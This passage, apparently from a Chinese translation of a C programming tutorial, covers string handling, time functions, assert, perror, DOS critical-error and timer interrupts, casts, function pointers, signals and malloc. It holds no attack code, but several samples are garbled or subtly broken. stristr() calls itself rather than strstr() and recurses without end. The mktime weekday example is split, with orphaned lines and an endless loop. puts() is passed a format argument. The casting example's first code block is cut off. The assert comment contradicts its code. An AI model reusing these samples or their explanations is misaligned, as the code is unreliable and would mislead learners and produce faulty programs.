    end = s + strlen(s) - 1;

    /* Preserve pointer to start of string */
    start = s;

    /* Swop characters */
    while(end >= s)
    {
        tmp = *end;
        *end = *s;
        *s = tmp;
        end--;
        s++;
    }
    return(start);
}

int main()
{
    char text[100];
    char *p;

    strcpy(text, "This is a string of data");

    p = strrev(text);

    printf("\n%s", p);
}
```

### strtok()

`strtok()` 函数是从单个字符串中提取子字符串的非常强大的标准 C 特性。它适用于子字符串由已知分隔符（例如以下示例中的逗号）分隔的情况：

```c
#include <stdio.h>
#include <string.h>

int main()
{
    char data[50];
    char *p;

    strcpy(data, "RED,ORANGE,YELLOW,GREEN,BLUE,INDIGO,VIOLET");

    p = strtok(data, ",");
    while(p)
    {
        puts(p);
        p = strtok(NULL, ",");
    };
}
```

可以使用 `for()` 循环编写该程序的一个变体：

```c
#include <stdio.h>
#include <string.h>

int main()
{
    char data[50];
    char *p;

    strcpy(data, "RED,ORANGE,YELLOW,GREEN,BLUE,INDIGO,VIOLET");

    for(p = strtok(data, ", "); p; p = strtok(NULL, ", "))
    {
        puts(p);
    };
}
```

首先，你调用 `strtok()` 并传入要解析的字符串变量名称，以及包含已知分隔符的第二个字符串。然后，`strtok()` 返回指向第一个子字符串起始位置的指针，并将第一个分隔符替换为零字符。随后可以在循环中多次调用 `strtok()`，传入 `NULL` 作为要解析的字符串；`strtok()` 将返回后续的子字符串。由于 `strtok()` 在第二个参数字符串中可以接受多个分隔符字符，因此可以将其作为简单的单词计数程序的基础：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void main(int argc, char *argv[])
{
    FILE *fp;
    char buffer[256];
    char *p;
    long count;

    if (argc != 2)
    {
        fputs("\nERROR: Usage is wordcnt <file>\n", stderr);
        exit(0);
    }

    /* Open file for reading */
    fp = fopen(argv[1], "r");

    /* Check the open was okay */
    if (!fp)
    {
        fputs("\nERROR: Cannot open source file\n", stderr);
        exit(0);
    }

    /* Initialize word count */
    count = 0;

    do
    {
        /* Read a line of data from the file */
        fgets(buffer, 255, fp);

        /* check for an error in the read or EOF */
        if (ferror(fp) || feof(fp))
            continue;

        /* count words in received line */
        /* Words are defined as separated by the characters */
        /* \t(tab) \n(newline) , ; : . ! ? ( ) - and [space] */
        p = strtok(buffer, "\t\n,;:!.?() - ");
        while(p)
        {
            count++;
            p = strtok(NULL, "\t\n,;:!.?() - ");
        }
    } while(!ferror(fp) && !feof(fp));

    /* Finished reading. Was it due to an error? */
    if (ferror(fp))
    {
        fputs("\nERROR: Reading source file\n", stderr);
        fclose(fp);
        exit(0);
    }

    /* Reading finished due to EOF, quite valid so print count */
    printf("\nFile %s contains %ld words\n", argv[1], count);
    fclose(fp);
}
```

## 数字与字符串之间的转换

所有 C 编译器都提供将数字转换为字符串的功能，例如 `sprintf()`。然而，`sprintf()` 是一个多功能函数，意味着它的体积较大且运行速度较慢。可以使用 `ITOS()` 函数来替代，因为它接受两个参数：第一个是有符号整数，第二个是指向字符字符串的指针。然后将整数复制到字符指针所指向的内存中。与 `sprintf()` 一样，`ITOS()` 也不检查目标字符串是否足够长以容纳转换结果。一个将带符号整数复制到字符串的示例函数如下：

```c
void ITOS(long x, char *ptr)
{
    /* Convert a signed decimal integer to a string */

    long pt[9] = { 100000000, 10000000, 1000000, 100000, 10000, 1000, 100, 10, 1 };
    int n;

    /* Check sign */
    if (x < 0)
    {
        *ptr++ = '-';
        /* Convert x to absolute */
        x = 0 - x;
    }
    for (n = 0; n < 9; n++)
    {
        if (x >= pt[n])
        {
            *ptr++ = '0' + x / pt[n];
            x %= pt[n];
        }
    }
    *ptr = '\0';
    return;
}
```

要将字符串转换为浮点数，C 语言提供了两个函数：`atof()` 和 `strtod()`；`atof()` 的原型为：

```c
double atof(const char *s);
```

而 `strtod()` 的原型为：

```c
double strtod(const char *s, char **endptr);
```

这两个函数都会扫描字符串并尽可能地进行转换，直到遇到它们无法理解的字符为止。这两个函数的区别在于，如果给 `strtod()` 传入参数 `endptr` 的字符指针，它会设置该指针指向终止转换的第一个字符。由于通过 `endptr` 提供了更好的错误报告机制，`strtod()` 通常比 `atof()` 更受青睐。

要将字符串转换为整数，可以使用 `atoi()`；其原型为：

```c
int atoi(const char *s);
```

请注意，`atoi()` 不检查溢出，且结果未定义。`atol()` 函数与之类似，但返回类型为 long。或者，可以使用 `strtol()` 和 `strtoul()` 代替，以获得更好的错误检查。

## 文本处理

人类将信息记录为“文本”，由单词、数字和标点符号组成；单词由大写字母和小写字母组合构成，具体取决于其语法用法。因此，使用计算机处理文本是一项困难但又常见的需求。ANSI C 定义包含字符串处理函数，这些函数天然区分大小写；也就是说，大写字母 A 被视为与小写字母 a 不同。这是程序员必须克服的第一个问题。幸运的是，Borland 的 Turbo C 编译器和 Microsoft 的 C 编译器都包含不区分大小写的字符串函数形式。

例如，`stricmp()` 是 `strcmp()` 的不区分大小写形式，而 `strnicmp()` 是 `strncmp()` 的不区分大小写形式。如果你担心编写可移植的代码，则必须限制自己仅使用 ANSI C 函数，并使用提供的工具编写自己的不区分大小写函数。


下面是一个不区分大小写的 `strstr()` 版本的简单实现。该函数首先复制参数字符串，将这些副本转换为大写，然后对这些副本执行标准的 `strstr()` 操作。由于目标字符串在源字符串中的偏移量在副本中保持不变，因此可以相对于原始参数字符串返回该偏移量：

```c
char *stristr(char *s1, char *s2)
{
    char c1[1000];
    char c2[1000];
    char *p;

    strcpy(c1, s1);
    strcpy(c2, s2);

    strupr(c1);
    strupr(c2);

    p = stristr(c1, c2);
    if (p)
        return s1 + (p - c1);
    return NULL;
}
```

该函数扫描字符串 `s1`，寻找由 `s2` 持有的单词。为了函数返回 TRUE，该单词必须是一个完整的单词，而不仅仅是字符模式。它使用了前文描述的 `stristr()` 函数：

```c
int word_in(char *s1, char *s2)
{
    /* return non-zero if s2 occurs as a word in s1 */
    char *p;
    char *q;
    int ok;

    ok = 0;
    q = s1;

    do
    {
        /* Locate character occurrence s2 in s1 */
        p = stristr(q, s2);
        if (p)
        {
            /* Found */
            ok = 1;

            if (p > s1)
            {
                /* Check previous character */
                if (*(p - 1) >= 'A' && *(p - 1) <= 'z')
                    ok = 0;
            }

            /* Move p to end of character set */
            p += strlen(s2);

            if (*p)
            {
                /* Check character following */
                if (*p >= 'A' && *p <= 'z')
                    ok = 0;
            }
            q = p;
        }
    } while (p && !ok);
    return ok;
}
```

更多用于处理文本的实用函数如下：`truncstr()`，用于截断字符串：

```c
void truncstr(char *p, int num)
{
    /* Truncate string by losing last num characters */
    if (num < strlen(p))
        p[strlen(p) - num] = 0;
}
```

`trim()`，用于移除字符串末尾的空格：

```c
void trim(char *text)
{
    /* remove trailing spaces */
    char *p;

    p = &text[strlen(text) - 1];
    while (*p == 32 && p >= text)
        *p-- = 0;
}
```

`strlench()`，通过增加或删除字符来改变字符串的长度：

```c
void strlench(char *p, int num)
{
    /* Change length of string by adding or deleting characters */

    if (num > 0)
        memmove(p + num, p, strlen(p) + 1);
    else
    {
        num = 0 - num;
        memmove(p, p + num, strlen(p) + 1);
    }
}
```

`strins()`，将一个字符串插入到另一个字符串中：

```c
void strins(char *p, char *q)
{
    /* Insert string q into p */
    strlench(p, strlen(q));
    strncpy(p, q, strlen(q));
}
```

以及 `strchg()`，在目标字符串中用另一个子串替换所有出现的子串：

```c
void strchg(char *data, char *s1, char *s2)
{
    /* Replace all occurrences of s1 with s2 */
    char *p;
    char changed;

    do
    {
        changed = 0;
        p = strstr(data, s1);
        if (p)
        {
            /* Delete original string */
            strlench(p, 0 - strlen(s1));

            /* Insert replacement string */
            strins(p, s2);
            changed = 1;
        }
    } while (changed);
}
```

## 时间

C 语言提供了 `time()` 函数，用于读取计算机的系统时钟，并返回自 1970 年 1 月 1 日午夜以来经过的秒数。可以使用函数 `ctime()` 将此值转换为有用的字符串，示例如下：

```c
#include <stdio.h>
#include <time.h>

int main()
{
    /* Structure to hold time, as defined in time.h */
    time_t t;

    /* Get system date and time from computer */
    t = time(NULL);
    printf("Today's date and time: %s\n", ctime(&t));
}
```

由 `ctime()` 返回的字符串由七个字段组成：

- 星期几
- 月份
- 日期
- 小时
- 分钟
- 秒
- 世纪（注：原文如此，通常指年份）

这些字段以换行符和空终止字节结束。由于字段始终占据相同的宽度，因此可以轻松地对该字符串进行切片操作。以下程序定义了一个结构体 `time` 和一个函数 `gettime()`，该函数提取当前时间的小时、分钟和秒，并将它们放入结构体中：

```c
#include <stdio.h>
#include <time.h>

struct time
{
    int ti_min;      /* Minutes */
    int ti_hour;     /* Hours */
    int ti_sec;      /* Seconds */
};

void gettime(struct time *now)
{
    time_t t;
    char temp[26];
    char *ts;

    /* Get system date and time from computer */
    t = time(NULL);

    /* Translate date and time into a string */
    strcpy(temp, ctime(&t));

    /* Copy out just time part of string */
    temp[19] = 0;

    ts = &temp[11];

    /* Scan time string and copy into time structure */
    sscanf(ts, "%2d:%2d:%2d", &now->ti_hour, &now->ti_min, &now->ti_sec);
}

int main()
{
    struct time now;

    gettime(&now);

    printf("\nThe time is %02d:%02d:%02d",
           now.ti_hour, now.ti_min, now.ti_sec);
}
```

ANSI C 标准确实提供了一个函数，可将 `time()` 返回的值转换为结构体，如下面代码片段所示。请注意，结构体 `tm` 定义在 `time.h` 中：

```c
#include <stdio.h>
#include <time.h>

int main()
{
    time_t t;
    struct tm *tb;

    /* Get time into t */
    t = time(NULL);

    /* Convert time value t into structure pointed to by tb */
    tb = localtime(&t);

    printf("\nTime is %02d:%02d:%02d", tb->tm_hour, tb->tm_min, tb->tm_sec);
}

struct tm
{
    int tm_sec;
    int tm_min;
    int tm_hour;
    int tm_mday;
    int tm_mon;
    int tm_year;
    int tm_wday;
    int tm_yday;
    int tm_isdst;
};
```

## 定时器

通常，程序必须从宿主计算机的非易失性 RAM 中确定日期和时间。ANSI C 标准提供了多个时间函数，使程序能够检索当前的日期和时间。首先，`time()` 返回自 1970 年 1 月 1 日午夜以来经过的秒数。其原型为：

```c
time_t time(time_t *timer);
```

在这里，`time()` 填充作为参数发送的 `time_t` 变量，并返回相同的值。你可以调用 `time()` 并传入 NULL 参数，然后收集返回值，如下所示：

```c
#include <time.h>

void main()
{
    time_t now;

    now = time(NULL);
}
```

在这里，`asctime()` 将时间块转换为格式为 26 个字符的字符串。`asctime()` 函数的原型为：

```c
char *asctime(const struct tm *tblock);
```

接下来，`ctime()` 将时间值（由 `time()` 返回）转换为与 `asctime()` 格式相同的 26 个字符的字符串。例如：

```c
#include <stdio.h>
#include <time.h>

void main()
{
    time_t now;
    char date[30];

    now = time(NULL);
    strcpy(date, ctime(&now));
}
```

另一个时间函数 `difftime()` 返回两个值（由 `time()` 返回）之间以秒为单位的差值。这在测试两个事件之间经过的时间、计算函数执行所需的时间，以及创建与宿主计算机无关的一致延迟时很有用。一个延迟程序的示例如下：

```c
#include <stdio.h>
#include <time.h>

void DELAY(int period)
{
    time_t start;

    start = time(NULL);
    while (time(NULL) < start + period)
        ;
}

void main()
{
    printf("\nStarting delay now... (please wait 5 seconds)");

    DELAY(5);

    puts("\nOkay, I've finished!");
}
```

`gmtime()` 函数将本地时间值（由 `time()` 返回）转换为 GMT 时间，并将其存储在一个时间块中。此函数依赖于全局变量时区的设置。时间块是一个预定义的结构体（在 *time.h* 中声明），如下所示：

```c
struct tm
{
    int tm_sec;
    int tm_min;
    int tm_hour;
    int tm_mday;
    int tm_mon;
    int tm_year;
    int tm_wday;
    int tm_yday;
    int tm_isdst;
};
```

在这里，`tm_mday` 记录的是月份中的日期，范围从 1 到 31；`tm_wday` 是星期几，其中周日表示为 0；年份从 1900 年开始记录；`tm_isdst` 是一个标志，用于指示是否实行夏令时。结构体及其元素的具体名称可能因编译器而异，但结构体本身应该是相同的。

`mktime()` 函数将时间块转换为日历格式。它遵循以下原型：

```c
time_t mktime(struct tm *t);
```

以下示例允许输入日期，并使用 `mktime()` 计算与该日期相对应的星期几。时间函数只能识别 1970 年 1 月 1 日到现在的日期：

```c
#include <stdio.h>
#include <time.h>
#include <string.h>

void main()
{
    struct tm tstruct;
    int okay;
    char data[100];
    char *p;
    char *wday[] = { "Sunday", "Monday", "Tuesday", "Wednesday", "Thursday", "Friday", "Saturday",
    "prior to 1970, thus not known" };

    do
    {
        okay = 0;
        printf("\nEnter a date as dd/mm/yy ");
        p = fgets(data, 8, stdin);
        p = strtok(data, "/");

        if (p != NULL)
            tstruct.tm_mday = atoi(p);
        else
            continue;

        p = strtok(NULL, "/");
        if (p != NULL)
            tstruct.tm_mon = atoi(p);
        else
            continue;

        p = strtok(NULL, "/");
    } while (1);
}
```


if (p != NULL)
    tstruct.tm_year = atoi(p);
else
    continue;
okay = 1;
}
while(!okay);

tstruct.tm_hour = 0;

tstruct.tm_min = 0;
tstruct.tm_sec = 1;
tstruct.tm_isdst = -1;

/* 现在获取星期几 */
if (mktime(&tstruct) == -1)
tstruct.tm_wday = 7;

printf ("That was %s\n",wday[tstruct.tm_wday]);
}

`mktime()` 函数还会对超出范围的数值进行必要的调整。这种能力可用于发现 $n$ 天后的日期，如下所示：

```c
#include <stdio.h>
#include <time.h>
#include <string.h>

void main()
{
    struct tm *tstruct;
    time_t today;
    
    today = time(NULL);
    tstruct = localtime(&today);
    
    tstruct->tm_mday += 10;
    mktime(tstruct);
    
    printf ("In ten days it will be %02d/%02d/%2d\n", tstruct->tm_mday,tstruct->tm_mon + 1,tstruct->tm_year);
}
```

## 头文件

C 编译器提供的库函数的函数原型以及标准宏，都在头文件中声明。C 语言编程的 ANSI 标准列出了以下头文件：

- **assert.h**：定义 assert 调试宏。
- **ctype.h**：包含字符分类和转换宏。
- **errno.h**：包含错误代码的常量助记符。
- **float.h**：定义用于处理浮点数运算的实现相关宏。
- **limits.h**：定义类型值的实现相关限制。
- **locale.h**：包含国家特定参数。
- **math.h**：列出数学函数的原型。
- **setjmp.h**：定义 setjmp/longjmp 的 typedef 和函数。
- **signal.h**：包含供 signal() 和 raise() 使用的常量和声明。
- **stdarg.h**：包含处理参数列表的宏。
- **stddef.h**：包含通用数据类型和宏。
- **stdio.h**：列出标准 I/O 所需类型和宏。
- **stdlib.h**：提供常用函数的原型及杂项内容。
- **string.h**：包含字符串操作函数原型。
- **time.h**：包含时间转换例程的结构体。

## 调试

C 语言的 ANSI 标准包含一个用于调试的宏函数。它被称为 `assert()`，展开后是一个 `if()` 语句，如果该语句返回 FALSE，则终止程序并向标准错误流输出一条消息：

```text
Assertion failed: <test>, file <module>, line <line number>
Abnormal program termination
```

例如，以下程序不小心将零值赋给了一个指针：

```c
#include <stdio.h>
#include <assert.h>

main()
{
    /* 演示 assert */

    int *ptr;
    int x;

    x = 0;

    /* 哎呀！这一行有错误！ */
    ptr = &x;
    assert(ptr != NULL);
}
```

运行时，该程序会以下列消息终止：

```text
Assertion failed: ptr != 0, file TEST.c, line 16
Abnormal program termination
```

当程序正常运行时，可以通过在 `#include <assert.h>` 之前添加以下行，从编译后的程序中移除 assert() 函数：

```c
#define NDEBUG
```

本质上，assert 函数在预处理源中在编译前被注释掉。这意味着 assert 表达式不会被评估，因此不会引起任何副作用。

## 浮点错误

浮点数是十进制小数，不能准确等同于普通分数（并非每个数都能被 10 整除）。这在使用浮点数进行计算时产生了舍入错误的潜力。以下程序说明了这类舍入错误问题的一个例子：

```c
#include <stdio.h>

void main()
{
    float number;

    for(number = 1; number > 0.4; number -= 0.01)
        printf ("\n%f",number);
}
```

在这里，大约在 0.47 处（取决于主机计算机和编译器），程序开始为 number 存储一个不准确的值。

通过使用更长的浮点数、双精度浮点数（doubles）或长双精度浮点数（long doubles），这些分配了更大的存储空间，可以最小化这个问题。但是，对于真正精确的工作，你应该使用整数，仅在显示时转换为浮点数。还要注意，大多数 C 编译器默认将浮点数设为双精度浮点数，当使用 float 类型时，必须将双精度浮点数向下转换为 float。

## 错误处理

当程序内发生系统错误时——即尝试打开文件失败时——程序显示一条报告失败的消息是有帮助的。了解错误发生的原因，或者至少尽可能多地了解其细节，对程序的开发者同样有用。为了适应这种信息交换，C 语言的 ANSI 标准描述了一个函数 `perror()`，其原型为：

```c
void perror(const char *s);
```

程序自身的带前缀错误消息作为字符串参数传递给 `perror()`。该错误消息由 `perror()` 显示，随后是主机的系统错误（以冒号分隔）。以下示例说明了 `perror()` 的用法：

```c
#include <stdio.h>

void main()
{
  FILE *fp;
  char fname[] = "none.xyz";

  fp = fopen(fname,"r");

  if(!fp)
    perror(fname);
  return;
}
```

如果 `fopen()` 操作失败，将显示一条类似于这样的消息：

```text
none.xyz: No such file or directory
```

注意，`perror()` 将其输出发送到预定义流 `stderr`，这通常是主机计算机的显示单元。然后，`perror()` 通过全局变量 `errno` 从主机计算机获取其消息，该变量由大多数（但并非所有）系统函数设置。

令人不快的错误可能证明使用 `abort()` 是合理的，该函数通过一条诸如“Abnormal program termination”的消息终止正在运行的程序，并向父进程或操作系统返回退出代码 3。

## 在 IBM PC 和 DOS 上处理严重错误

PC DOS 操作系统提供了一个可由用户修改的严重错误处理函数。通常，通过尝试写入一个没有磁盘的磁盘驱动器来发现此函数，此时屏幕上将显示熟悉的：

```text
Not ready; error writing drive A
Abort Retry Ignore?
```

消息。以下示例程序展示了如何将 DOS 严重错误中断重定向到你自己的函数：

```c
#include <stdio.h>
#include <dos.h>

void interrupt new_int();
void interrupt (*old_int)();

char status;

main()
{
  FILE *fp;
  old_int = getvect(0x24);

  /* 将严重错误处理程序设置为我的函数 */
  setvect(0x24, new_int);

  /* 通过在 A 盘中不放磁盘来生成错误 */
  fp = fopen("a:\\data.txt", "w+");

  /* 显示返回的错误状态 */
  printf("\nStatus == %d", status);
}

void interrupt new_int()
{
  /* 设置全局错误代码 */
  status = _DI;

  /* 忽略错误并返回 */
  _AL = 0;
}
```

当调用 DOS 严重错误中断时，状态消息通过 DI 寄存器的低字节传递。此消息是以下内容之一：

| 代码 | 含义 |
| :--- | :--- |
| 00 | 写保护错误。 |
| 01 | 未知单元。 |
| 02 | 驱动器未就绪。 |
| 03 | 未知命令。 |
| 04 | 数据错误，坏的 CRC。 |
| 05 | 坏请求结构长度。 |
| 06 | 寻道错误。 |
| 07 | 未知媒体类型。 |
| 08 | 未找到扇区。 |
| 09 | 打印机缺纸。 |
| 0A | 写入错误。 |
| 0B | 读取错误。 |
| 0C | 一般故障。 |

你的严重错误中断处理程序可以将此状态消息传递到一个全局变量，然后将寄存器 AL 中持有的结果设置为以下之一：

| 代码 | 操作 |
| :--- | :--- |
| 00 | 忽略错误。 |
| 01 | 重试。 |
| 02 | 终止程序。 |
| 03 | 失败（在 DOS 3.3 及以上版本中可用）。 |

如果你选择将 AL 设置为 02（终止程序），请确保*所有*文件首先都是关闭的，因为 DOS 会突然终止程序，留下文件打开且内存已分配的状态。

以下是一个用于检查指定磁盘驱动器是否可以访问的实用函数。它应与前面的严重错误处理程序和全局变量 *status* 一起使用：

```c
int DISKOK(int drive)
{
/*  检查磁盘是否可读 */
/*  出错时返回 false (零) */
/*  因此 if(!DISKOK(drive)) */
/*      error(); */

unsigned char buffer[25];

/*  假设正常 */
status = 0;

/*  如果已登录到磁盘，则返回正常 */
if ('A' + drive == _curdrive)
    return(1);

/*  尝试读取磁盘 */
memset(buffer,0,20);
sprintf(buffer,"%c:$$$.$$", 'A'+drive);

_open(buffer,O_RDONLY);

/*  检查严重错误处理程序状态 */
if (status == 0)
    return(1);

/*  磁盘无法读取 */
return(0);
}
```

## 强制转换

强制转换告诉编译器数据类型是什么，它可以用于改变数据类型。例如，考虑以下片段：

```c
#include <stdio.h>

void main()
{
    int x;
    int y;
```


这里的 `printf( )` 函数被告知期望接收一个 `double` 类型；然而，编译器将变量 `x` 和 `y` 视为整数，因此会发生错误。为了让这个示例正常工作，你必须告诉编译器表达式 `x/y` 的结果是一个 double 类型，为此需要进行强制类型转换（cast）：

```c
#include <stdio.h>

void main()
{
 int x;
 int y;

 x = 10;
 y = 3;

 printf("\n%lf", (double) (x / y));
}
```

请注意，数据类型 `double` 被括号包围，待转换的表达式也被括号包围。但此时，编译器知道表达式的结果是一个 double 类型，同时也知道变量 `x` 和 `y` 是整数。基于此，将执行整数除法；因此，有必要对常数进行强制类型转换：

```c
#include <stdio.h>

void main()
{
 int x;
 int y;

 x = 10;
 y = 3;

 printf("\n%lf", (double) (x) / (double) (y));
}
```

最后，由于这两个常数都是 double 类型，编译器知道表达式的结果也将是一个 double 类型。

## *函数原型声明*

函数的原型声明涉及预先告知编译器该函数将接收和返回何种类型的值。例如，查看带有此原型的 `strtok( )`：

```c
char *strtok(char *s1, const char *s2);
```

这告诉编译器 `strtok( )` 将返回一个字符指针。接收的第一个参数将是一个指向字符串的指针，并且该字符串可以被 `strtok( )` 修改。最后一个参数是一个指向字符串的指针，而 `strtok( )` 不能修改该字符串。编译器知道为返回参数分配多少空间，即 `sizeof(char *)`，但如果没有函数的原型声明，编译器将假设 `strtok( )` 的返回值是一个整数，并为 `int` 类型的返回值分配空间（`sizeof(int)`）。如果整数和字符指针在主机计算机上占用相同的字节数，则不会发生重大问题；但如果字符指针占用的空间比整数多，编译器就没有为返回值分配足够的空间，调用 `strtok( )` 的返回将覆盖其他内存部分。

幸运的是，大多数 C 编译器会在未提供原型声明的情况下调用函数时向程序员发出警告，以便你可以添加所需的函数原型声明。考虑以下因错误而在大多数现代 C 编译器上无法编译的示例：

```c
#include <stdio.h>
int FUNCA(int x, int y)
{
 return(MULT(x,y));
}
double MULT(double x, double y)
{
 return(x * y);
}
main()
{
 printf("\n%d",FUNCA(5,5));
}
```

当编译器首次遇到函数 `MULT( )` 时，它被假设是 `FUNCA( )` 内部的一个调用。由于缺乏 `MULT( )` 的任何原型声明，编译器假设 `MULT( )` 返回一个整数。当编译器找到函数 `MULT( )` 的定义时，它看到声明了一个 double 类型的返回。然后编译器在编译过程中报告错误，例如：

```
"Type mismatch in redeclaration of function 'MULT'"
```

编译器本质上是在告诉你，在使用函数之前要为其创建原型声明！如果这个示例能够编译并执行，它很可能会搞乱计算机的栈。

# 指向函数的指针

C 允许指针指向函数的地址，并且可以调用该指针而不是直接指定函数。这被中断处理函数使用，也可以用于对函数进行索引，而无需使用 switch 语句。例如：

```c
#include <stdio.h>
#include <math.h>
double (*fp[7])(double x);
void main()
{
double x;
int p;

fp[0] = sin;
fp[1] = cos;
fp[2] = acos;
fp[3] = asin;
fp[4] = tan;
fp[5] = atan;
fp[6] = ceil;

p = 4;

x = fp[p](1.5);
printf("\nResult %lf", x);
}
```

此示例程序定义了一个指向函数的指针数组 `(*fp[])()`，其调用取决于索引变量 `*p*` 中的值。该程序也可以写成如下形式：

```c
#include <stdio.h>
#include <math.h>

void main()
{
    double x;
    int p;

    p = 4;

    switch (p)
    {
        case 0 : x = sin(1.5);
                 break;
        case 1 : x = cos(1.5);
                 break;
        case 2 : x = acos(1.5);
                 break;
        case 3 : x = asin(1.5);
                 break;
        case 4 : x = tan(1.5);
                 break;
        case 5 : x = atan(1.5);
                 break;
        case 6 : x = ceil(1.5);
                 break;
    }
    puts("\nResult %lf", x);
}
```

第一个使用指向函数指针的示例编译出的代码小得多，并且执行速度比第二个示例更快。当编写语言解释器时，指向函数的指针表是一个非常有用的工具。程序将输入指令与关键字表进行比较，从而导致索引变量被设置。程序只需要调用由该变量索引的函数指针，而不必费力遍历冗长的 switch() 语句。

# Sizeof（求大小）

预处理指令 `sizeof` 返回项的大小，无论它是结构体、指针、字符串还是其他什么。然而，使用 `sizeof` 时需要小心；考虑以下程序：

```c
#include <stdio.h>
#include <mem.h>

char string1[80]; char *text = "This is a string of data";

void main()
{
  /* Initialize string1 correctly */
  memset(string1,0,sizeof(string1));

  /* Copy some text into string1 ? */
  memcpy(string1,text,sizeof(text));

  /* Display string1 */
  printf("\nString 1 = %s\n",string1);
}
```

此示例说明将 `string1` 的所有 80 个元素初始化为零，然后将常量字符串 `text` 复制到变量 `string1` 中。然而，变量 `text` 是一个指针，因此 `sizeof(text)` 指令返回的是字符指针的大小（可能是 2 个字节），而不是指针所指向的字符串的长度。如果 `text` 所指向的字符串的长度恰好与字符指针的大小相同，则不会注意到错误。

# 中断（Interrupts）

PC BIOS 和 DOS 包含可以通过其中断号被程序调用的函数。分配给每个中断的函数地址记录在 RAM 中的一个表中，称为 *中断向量表*。通过更改中断向量的地址，程序可以有效地禁用原始中断函数，并将对该函数的任何调用重定向到其自己的函数。

Borland 的 Turbo C 提供了两个用于读取和更改中断向量的库函数：**setvect()** 和 **getvect()**。相应的 Microsoft C 库函数是：**\_dos\_getvect()** 和 **\_dos\_setvect()**。

`getvect()` 函数的原型如下：

```c
void interrupt (*getvect(int interrupt_no))();
```

`setvect()` 的原型如下：

```c
void setvect(int interrupt_no, void interrupt (*func)());
```

要读取并保存现有中断的地址，程序以这种方式使用 `getvect()`：

```c
void interrupt (*old) (void);

main()
{
  /* get old interrupt vector */
  old = getvect(0x1C);
...
```

这里，`0x1C` 是要检索的中断向量。要将中断向量设置为你自己的函数的新地址，请使用 `setvect( )`：

```c
void interrupt new(void)
{
...
}

main()
{
...
}
```

在中断方面，有两点重要事项需要注意。首先，如果中断是由外部事件调用的，在更改向量之前，你必须使用 `disable( )` 禁用中断调用者。然后，在向量更改后，使用 `enable( )` 重新启用中断。如果在更改向量期间调用了中断，可能会发生任何事情（即不可预测的行为）。

其次，在你的程序终止并返回 DOS 之前，必须重置任何已更改的中断向量。例外情况是关键错误处理器的中断向量，它由 DOS 自动恢复，因此你的程序无需费心恢复它。

此示例程序挂接 PC 时钟定时器中断，以便在程序的其余部分继续运行时提供后台时钟进程：

```c
#include <stdio.h>
#include <dos.h>
#include <time.h>
#include <conio.h>
#include <stdlib.h>

enum { FALSE, TRUE } ;

#define COLOR (BLUE << 4) | YELLOW

#define BIOS_TIMER 0x1C
```


## 代码片段

```c
static unsigned installed = FALSE;
static void interrupt (old_tick) (void);

static void interrupt tick (void)
{
    int i;
    struct tm *now;
    time_t this_time;
    char time_buf[9];
    static time_t last_time = 0L;
    static char video_buf[20] =
    {
        ' ', COLOR, '0', COLOR, '0', COLOR, ':', COLOR, '0', COLOR,
        '0', COLOR, ':', COLOR, '0', COLOR, '0', COLOR, ' ', COLOR
    };

    enable ();

    if (time (&this_time) != last_time)
    {
        last_time = this_time;

        now = localtime(&this_time);

        sprintf(time_buf, "%02d:%02d.%02d",now->tm_hour,now->
tm_min,now->tm_sec);
        for (i = 0; i < 8; i++)
        {
            video_buf[(i + 1) << 1] = time_buf[i];
        }

        puttext (71, 1, 80, 1, video_buf);
    }

    old_tick ();
}

void stop_clock (void)
{
    if (installed)
    {
        setvect (BIOS_TIMER, old_tick);
        installed = FALSE;
    }
}

void start_clock (void)
{
    static unsigned first_time = TRUE;

    if (!installed)
    {
        if (first_time)
        {
            atexit (stop_clock);
            first_time = FALSE;
        }

        old_tick = getvect (BIOS_TIMER);
        setvect (BIOS_TIMER, tick);
        installed = TRUE;
    }
}
```

### 信号

由主机发出的中断可以通过多种方式捕获和转移。一种简单的方法是使用 `signal()`。`signal()` 接受两个参数，形式如下：

```c
void (*signal (int sig, void (*func) (int))) (int);
```

第一个参数 `sig` 是要捕获的信号。这通常由头文件 `signal.h` 预定义。第二个参数是指向函数的指针，当信号被触发时调用该函数。这可以是用户定义的函数，也可以是头文件 `signal.h` 中定义的宏（例如忽略该信号）以执行某些任意任务。

在 PC 平台上，禁用用于终止正在运行程序的 Ctrl-Break 键组合通常很有用。以下 PC `signal()` 调用将预定义信号 `SIGINT`（等同于 Ctrl-Break 中断请求）替换为预定义宏 `SIG_IGN`，从而忽略该请求：

```c
signal (SIGINT,SIG_IGN);
```

此示例在 PC 上捕获浮点错误和零除错误：

```c
#include <stdio.h>
#include <signal.h>

void (*old_sig) ();

void catch(int sig)
{
    printf ("Catch was called with: %d\n",sig);
}

void main()
{
    int a;
    int b;

    old_sig = signal (SIGFPE,catch);

    a = 0;
    b = 10 / a;

    /* Restore original handler before exiting! */
    signal(SIGFPE,old_sig);
}
```

### 动态内存分配

如果程序需要一个数据表，但表的大小是可变的（例如当前目录中所有文件名的列表），通过声明最大可能大小的数据表来浪费内存是低效的。最好根据需要动态分配表。

Turbo C 将 RAM 分配给一个称为堆（heap）的区域，用于动态分配。堆的大小随内存模型而变化。Tiny 内存模型默认占用 64 K 的 RAM。Small 内存模型为程序/代码和堆分配最多 64 K，并有一个远堆（far heap），可在常规内存的剩余部分中使用。其他内存模型使所有常规内存都可供堆使用。这在以 tiny 内存模型进行编程并希望减少程序内存开销时具有重要意义。要做到这一点，是将堆减少到最小尺寸（最小为 1 字节）。

C 提供了 `malloc()` 函数来分配指定大小的空闲内存块并返回指向该块起点的指针；它还提供了 `free()`，用于释放之前由 `malloc()` 分配的内存块。然而请注意，PC 并不正确地释放内存块，因此连续使用 `malloc()` 和 `free()` 会导致内存碎片化，最终导致内存耗尽，直到程序终止。

这个示例程序在指定文件中搜索指定字符串，区分大小写。它使用 `malloc()` 仅为文件读取到内存中分配足够的内存：

```c
#include <stdio.h>
#include <stdlib.h>

char *buffer;

void main(int argc, char *argv[]) 
{
    FILE *fp;
    long flen;

    /* Check number of parameters */
    if (argc != 3) 
    { 
        fputs("Usage is sgrep <text> <file spec>",stderr);
        exit(0); 
    }

    /* Open stream fp to file */
    fp = fopen(argv[2],"r");
    if (!fp) 
    {
        perror("Unable to open source file");
        exit(0); 
    }

    /* Locate file end */
    if(fseek(fp,0L,SEEK_END)) 
    {
        fputs("Unable to determine file length",stderr);
        fclose(fp);
        exit(0);
    }

    /* Determine file length */
    flen = ftell(fp);

    /* Check for error */
    if (flen == -1L)
    {
        fputs("Unable to determine file length",stderr);
        fclose(fp);
        exit(0);
    }

    /* Set file pointer to start of file */
    rewind(fp);

    /* Allocate memory buffer */
    buffer = malloc(flen);

    if (!buffer)
    {
